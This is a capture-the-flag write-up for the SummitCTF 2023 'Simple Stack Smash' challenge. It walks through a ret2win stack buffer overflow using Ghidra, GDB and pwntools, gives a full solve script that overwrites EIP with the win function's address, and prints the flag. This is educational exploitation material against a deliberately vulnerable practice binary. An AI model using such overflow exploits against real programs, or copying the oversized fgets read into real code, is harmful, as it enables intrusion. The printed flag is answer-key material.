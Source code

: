 ```yaml
---
title: "Simple Stack Smash (SummitCTF 2023)"
summary: "Easy pwn Challenge - ret2win"
description: "Easy pwn Challenge - ret2win"
tags: [PWN, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Can you perform a simple stack smash? I hope so, you'll need to in order to reach the summit... (100 points)

Given file: [simple-stack-smash](/summitctf-simple-stack-smash/simple-stack-smash)

---

## Writeup

I'm going to use GDB with the [pwndbg](https://github.com/pwndbg/pwndbg) plugin for this challenge. Run `gdb <file>`

![name](/summitctf-simple-stack-smash/2023-04-23-21-44-48.png#center)

Here is the main function revealed in Ghidra:

```c
undefined4 main(void)
{
  char name_input [16];
  
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  printf("Please enter your name: ");
  fgets(name_input,1024,stdin);
  printf("Hello, %s!\n",name_input);
  return 0;
}
```
Curiously, there exists a `win` function:

```c
void win(void)
{
  system("cat /src/flag.txt");
  exit(0);
}
```

A ret2win challenge, where the objective is to redirect execution to the win function (`win_addr`). To do so, we need to figure out at what point of our input, the buffer overflow occurs (`offset`).

In gdb, `info fun win`: gives us the win_addr =` 0x08049216`

To find the offset we send a bunch of strings in the following cyclic pattern:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..` to find until what letter can the stack hold.
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf
context.log_level = "DEBUG"
gdb.attach(p)

p.sendline(cyclic(100))  # send pattern
p.interactive()  
# run script, enter 'c' in gdb to continue
```
We can see in gdb that the program SEGFAULTed when it's `%EIP` was pointing to 'gaaa' which caused the buffer overflow. If you're unfamiliar with assembly registers, `%EIP` is the instruction pointer which tells the computer what the next command is that must be executed. After making `%EIP` to point to our win function, we get the flag.

![name](/summitctf-simple-stack-smash/2023-04-23-23-04.png#center)

&nbsp;

### Solve script
Completing the script:
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf

# context.log_level = "DEBUG"
# gdb.attach(p)
# p.sendline(cyclic(100))  # sending pattern

offset = cyclic_find("gaaa")

p.sendlineafter(b"name: ", b"A" * offset + p32(win_addr))
p.interactive()
```

## Flag

`summitCTF{G1mMI3_S0M3th1NG_H4rD3r_PlZ}`

---